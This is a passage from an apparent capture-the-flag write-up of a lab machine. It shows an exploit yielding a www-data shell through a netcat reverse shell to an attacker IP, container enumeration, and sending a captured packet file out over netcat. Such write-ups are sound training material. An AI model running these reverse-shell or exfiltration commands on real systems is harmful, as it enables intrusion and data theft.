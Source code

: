 As for the reverse shell payload you have a very good guide and examples in [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), we will try first with a simple one.

```bash
$ python3 exploit.py
>> id
>> nc -e /bin/sh 10.10.14.70 1337         
```
{: .nolineno }

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.70] from (UNKNOWN) [10.129.197.77] 42482
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{: .nolineno }

# Pivot to Olympia

On a quick scan of the machine, from what we can see it appears to be a container as we have a `.dockerenv` and a rather unusual hostname.

It seems that there is a user named `zeus` and we can see his home folder, if we explore a little among his files, we see an interesting directory:

```bash
$ pwd
/home/zeus/airgeddon/captured

$ ls -la
total 304
drwxr-xr-x 1 zeus zeus   4096 Apr  8  2018 .
drwxr-xr-x 1 zeus zeus   4096 Apr  8  2018 ..
-rw-r--r-- 1 zeus zeus 297917 Apr  8  2018 captured.cap
-rw-r--r-- 1 zeus zeus     57 Apr  8  2018 papyrus.txt

$ cat papyrus.txt
Captured while flying. I'll banish him to Olympia - Zeus
```
{: .nolineno }

Next to what looks like a clue, we can see a file with extension `.cap` which is the packet capture of the network traffic.
Let's transfer the file to our local machine for further analysis.

```bash
$ nc -nlvp 8888 > captured.cap               
listening on [any] 8888 ...
```
{: .nolineno }

```bash
$ nc 10.10.14.70 8888 < captured.cap
```
{: .nolineno }
